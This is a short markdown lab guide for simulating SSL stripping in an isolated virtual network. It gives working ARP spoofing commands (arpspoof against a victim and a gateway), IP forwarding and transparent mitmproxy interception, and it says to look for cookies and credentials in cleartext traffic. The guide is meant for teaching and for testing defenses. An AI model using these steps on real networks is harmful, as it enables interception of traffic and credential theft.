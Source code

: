 # Lab: SSL Stripping (HTTPS Downgrade) — Safe Simulation

## Objective
Simulate an HTTPS downgrade in a controlled lab to illustrate the risk and validate defenses.

## Requirements
- Attacker VM: Kali Linux / Parrot OS (or any Linux)  
- Victim VM: a browser-enabled VM (Ubuntu/Windows)  
- Target web server: Simple test site with both HTTP and HTTPS enabled (self-signed OK for lab)  
- Tools: `mitmproxy` (recommended) or `sslstrip` for historical demonstration, Wireshark/tcpdump

## Setup notes
- Use an isolated virtual network (VirtualBox internal network, VMware host-only, or lab VLAN).
- Do not run this on production or public networks.

## Steps (using mitmproxy for safer, modern lab)
1. Install `mitmproxy` on attacker:
   ```bash
   sudo apt update
   sudo apt install mitmproxy -y

2. Enable IP forwarding (if using ARP spoofing):
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

3. Position attacker as MITM (ARP spoofing with     arpspoof or use a network emulator). Example with arpspoof:
sudo arpspoof -i eth0 -t <victim-ip> <gateway-ip>
sudo arpspoof -i eth0 -t <gateway-ip> <victim-ip>

4. Start mitmproxy in transparent mode to observe and optionally modify traffic:
   sudo mitmproxy --mode transparent --showhost

5. From victim, visit http://testsite.local or follow an HTTP link that would normally upgrade to HTTPS.
   
6. Observe in mitmproxy that HTTPS responses proxied to the victim may be intercepted if site lacks HSTS or proper redirects. Look for cookie fields, form posts, or credentials in cleartext HTTP traffic.